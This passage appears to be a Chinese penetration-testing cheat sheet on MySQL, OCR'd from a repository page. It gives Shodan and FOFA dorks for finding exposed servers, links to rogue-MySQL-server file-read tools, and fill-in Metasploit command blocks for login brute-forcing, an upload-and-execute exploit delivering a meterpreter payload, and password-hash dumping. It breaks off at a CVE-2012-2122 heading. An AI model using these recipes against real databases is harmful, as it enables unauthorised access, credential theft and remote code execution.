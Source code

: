 ## Mysql

MySQL 是一个关系型数据库管理系统，由瑞典 MySQL AB 公司开发，目前属于 Oracle 公司。MySQL 是一种关联数据库管理系统，MySQL 的 SQL 语言是用于访问数据库的最常用标准化语言。MySQL 软件采用了双授权政策，它分为社区版和商业版，一般中小型网站的开发选择 MySQL 作为网站数据库。

> shodan : "product:MySQL"
> fofa : app="Oracle-MySQL"

**注入**
- [Mysql数据库注入笔记](../Web安全/Web_Generic/SQLi.md#Mysql)

**MySQL 文件读**
- 相关文章
    - [通过MySQL LOAD DATA特性来达到任意文件读取](https://xz.aliyun.com/t/3973)
    - [Mysql Read Client's File](https://y4er.com/post/mysql-read-client-file/)

- 相关工具
    - [Gifts/Rogue-MySql-Server](https://github.com/Gifts/Rogue-MySql-Server)
    - [BeichenDream/MysqlT](https://github.com/BeichenDream/MysqlT) - 伪造Myslq服务端,并利用Mysql逻辑漏洞来获取客户端的任意文件反击攻击者

**MSF 爆破**
```bash
use auxiliary/scanner/mysql/mysql_login
set RHOSTS [IP]
set USER_FILE [用户名字典]
set PASS_FILE [密码字典]
set STOP_ON_SUCCESS true
set THREADS 20
exploit
```

**MSF 上传文件执行**
```bash
use exploit/windows/mysql/scrutinizer_upload_exec
set RHOST [ip]
set USERNAME [user]
set PASSWORD [pass]
set payload windows/meterpreter/bind_tcp
set RHOST [ip]
set LPORT 4444
exploit
```

**MSF 获取 mysql.user 的 hash**
```bash
use auxiliary/scanner/mysql/mysql_hashdump
set RHOSTS [ip]
set USERNAME [user]
set PASSWORD [pass]
set THREADS 20
exploit
```

**CVE-2012-2122 Mysql 身份认证绕过漏洞**
- 简介
